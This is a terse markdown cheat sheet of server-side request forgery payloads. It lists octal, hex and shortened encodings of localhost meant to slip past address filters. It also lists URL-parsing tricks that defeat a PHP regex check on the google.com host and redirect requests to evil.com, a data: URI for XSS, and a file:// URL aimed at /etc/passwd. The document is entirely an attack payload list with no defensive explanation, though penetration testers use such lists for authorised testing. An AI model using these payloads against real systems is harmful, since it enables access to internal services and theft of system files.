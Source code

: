### SSRF-localhost
- 0
- 127.00.1
- 127.0.01
- 0.00.0
- 0.0.00
- 127.1.0.1
- 127.10.1
- 127.1.01
- 0177.1
- 0177.0001.0001
- 0x0.0x0.0x0.0x0
- 0000.0000.0000.0000
- 0x7f.0x0.0x0.0x1
- 0177.0000.0000.0001
- 0177.0001.0000..0001
- 0x7f.0x1.0x0.0x1
- 0x7f.0x1.0x1
- localtest.me

### SSRF && Redirect && CORS
#### (preg_match('/google\.com$/', $host))
- evil.com:80\google.com  => evil.com
- evil.com:80;google.com  => evil.com
- evil.com:80,google.com  => evil.com
- evil$google.com => evil.com
- data://text.google.com/plain;base64,<...b64...> (PHP && XSS)
- http://foo@[cafebabe.cf]@google.com:3306/ => cafebabe.cf => 127.0.0.1
- file://www.google.com/etc/passwd
